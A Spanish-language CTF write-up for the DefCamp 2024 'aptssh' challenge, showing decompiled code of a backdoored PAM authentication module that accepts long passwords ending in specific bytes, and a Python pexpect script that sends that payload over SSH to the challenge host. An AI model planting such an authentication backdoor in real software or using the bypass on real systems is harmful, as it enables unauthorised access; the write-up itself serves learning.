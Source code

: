 ```yaml
---
layout: post
title: aptssh DefCamp 2024
comments: true
categories: [Pwn, Writeups, DefCamp]
---
```


Este es un reto de la competición de CTF DefCamp 2024, organizada por [DefCamp](https://www.linkedin.com/company/defcamp/?originalSubdomain=es). Este fue uno de los 4 retos de la categoría de PWN, de categoría *easy*.

![Image]({{ site.baseurl }}/images/posts/2024-10-1-Buy-coffee-DefCamp24-CTF-Logo.png)

# Overview

Este reto consistía en una aplicación PAM con una *backdoor* que spawneaba una shell en caso de que la contraseña cumpliera ciertos requisitos. 

# Reconocimiento

Se nos da únicamente una conexión por **SSH** (IP:puerto y credenciales), al conectarnos, se nos imprimen dos archivos encodeados en *base64*, en [cyberchef](https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')&input=WTI5dVptazZaR1Z1ZEdsaGJBPT0&oeol=CR) podemos convertirlo en dos archivos. Uno de ellos, es el que supuestamente tiene una *backdoor*. Podemos inspeccionar con *ghidra*:

```c
undefined4 pam_sm_authenticate(undefined8 param_1)
{
  int iVar2;
  size_t sVar3;
  FILE *__stream;
  char *pcVar4;
  undefined2 local_112;
  char *local_110;
  char *local_108;
  undefined4 local_100;
  undefined2 local_fc;
  undefined2 local_fa;
  undefined local_f8 [16];
  undefined local_e8 [16];
  undefined local_d8 [16];
  undefined local_c8 [16];
  undefined local_b8 [16];
  undefined local_a8 [16];
  undefined4 local_98;
  undefined local_88 [120];
  undefined auVar1 [16];
  
  rand();
  local_98 = 0;
  local_f8 = (undefined  [16])0x0;
  local_e8 = (undefined  [16])0x0;
  local_d8 = (undefined  [16])0x0;
  local_c8 = (undefined  [16])0x0;
  local_b8 = (undefined  [16])0x0;
  local_a8 = (undefined  [16])0x0;
  iVar2 = dfgebrycw();
  if (iVar2 == 0) {
    iVar2 = pam_get_user(param_1,&local_110,"Username: ");
    if (iVar2 == 0) {
      iVar2 = pam_get_authtok(param_1,6,&local_108,0);
      if (iVar2 != 0) {
        return 7;
      }
      iVar2 = dfgebrycw();
      if (iVar2 != 0) {
        return 7;
      }
      send_debug_message(param_1,local_88);
	      iVar2 = strcmp(local_108,"aptssh");                           /*COMPARACION PARA aptssh:aptssh*/
      if (iVar2 == 0) {
        iVar2 = strcmp(local_110,"aptssh");
        if (iVar2 == 0) {
          output_base64_file(param_1,"/lib/security/pam_passfile.so");
          output_base64_file(param_1,"/pam_passfile.o");
          return 0;
        }
      }
      else {                                                           /*COMPARACION ALTERNATIVA*/
        iVar2 = ierubvhcjsx();
        if (iVar2 == 0) {
          iVar2 = dfgebrycw();
          if (iVar2 != 0) {
            return 7;
          }
          pam_casual_auth(&local_112);
          sVar3 = strlen(local_108);
          if (100 < sVar3) {                             /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
            iVar2 = 7000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
            local_100 = 0xadc29ec3;
            local_fa = 0xafc3;
            local_fc = local_112;
            auVar1[0xf] = 0;
            auVar1._0_15_ = local_f8._1_15_;
            local_f8 = auVar1 << 8;
            iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
            if (iVar2 == 0) {
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 0;
            }
          }
          iVar2 = ierubvhcjsx();
          if (iVar2 == 0) {
            __strcpy_chk(local_f8,local_108,100);
            iVar2 = strcmp(local_110,"sshuser");
            if (iVar2 == 0) {
              __stream = fopen("/home/sshuser/pass.txt","r");
              if (__stream == (FILE *)0x0) {
                return 7;
              }
              pcVar4 = fgets(local_f8,100,__stream);
              if (pcVar4 != (char *)0x0) {
                fclose(__stream);
                sVar3 = strcspn(local_f8,"\n");
                local_f8[sVar3] = 0;
                iVar2 = strcmp(local_108,local_f8);
                if (iVar2 != 0) {
                  return 7;
                }
                return 0;
              }
              fclose(__stream);
              iVar2 = 10000;
              do {
                iVar2 = iVar2 + -8;
              } while (iVar2 != 0);
              return 7;
            }
            iVar2 = 10000;
            do {
              iVar2 = iVar2 + -8;
            } while (iVar2 != 0);
          }
        }
      }
    }
  }
  else {
    iVar2 = 10000;
    do {
      iVar2 = iVar2 + -8;
    } while (iVar2 != 0);
  }
  return 10;
}
```

Aquí vemos dos comparaciones principales, la primera, en caso de utilizar las credenciales `aptssh:aptssh`, que nos dará los archivos que tenemos. Además, vemos que en caso de un login correcto, tenemos un código de estado `0` (`return 0;`).

En la segunda comparación, se comprueba que la longitud de la contraseña sea mayor de 100. Después, se comprueban los carácteres a partir de la posición 100:

```c
if (100 < sVar3) {    /*COMPARA LA LONGITUD DE LA CONTRASEÑA*/
	
	iVar2 = 7000;
	do {
	  iVar2 = iVar2 + -8;
	} while (iVar2 != 0);    /*DELAY*/
	
	local_100 = 0xadc29ec3;
	local_fa = 0xafc3;
	local_fc = local_112;
	auVar1[0xf] = 0;
	auVar1._0_15_ = local_f8._1_15_;
	local_f8 = auVar1 << 8;
	iVar2 = memcmp(local_108 + 100,&local_100,9);  /*COMPARA A PARTIR DEL CARACTER 100 DE LA CONTRASEÑA*/
	if (iVar2 == 0) {
	  iVar2 = 10000;
	  do {
		iVar2 = iVar2 + -8;
	  } while (iVar2 != 0);
	  return 0;
	}
  }
```

Vemos que se comparan 9 bytes del dirección a la que apunta `local_100`, sin embargo, sólo contiene 4 (`0xadc29ec3`). Por tanto, seguirá leyendo las posiciones adyacentes:

```c
undefined4 local_100;
undefined2 local_fc;
undefined2 local_fa;
undefined local_f8 [16];
```

Por tanto, debemos pasar los valores que contendrán dichas variables: `local_100 (4B) + local_fc (2B) + local_fa (2B) + local_f8 (1B)`

```c
void pam_casual_auth(undefined2 *param_1) {
  *param_1 = 0xbec2;
  return;
}
```
> `local_112` se asigna mediante esta función.

# Explotación

De esta forma nos queda un payload como: `100*A + 0xadc29ec3 + 0xbec2 + 0xafc3 + 0x00`. Ya podemos crear un script de *python*, teniendo en cuenta que debemos mandar cada valor en *Little-Endian*:

```python
import pexpect

ssh_host = "34.159.156.124"
ssh_port = 32487
username = "sshuser"
payload = (
    b"a" * 100 +
    b"\xc3\x9e\xc2\xad\xc2\xbe\xc3\xaf"
)

child = pexpect.spawn(f"ssh -p {ssh_port} {username}@{ssh_host}")
child.expect("d:")
child.sendline(payload)
print(child.before.decode("utf-8"))
child.interact()
```

Este es un script creado por [r0-dev-null](https://github.com/r0-dev-null/ctf-writeups/tree/main/DCTF%202024%20Quals), ya que genera una shell más estable de la que logré con pwntools.

El reto en sí no creo que deba categorizarse como PWN sino como reversing, ya que no se ataca una vulnerabilidad de un programa como tal, sino que se resuelve mediante la aplocación de ingeniería inversa al binario.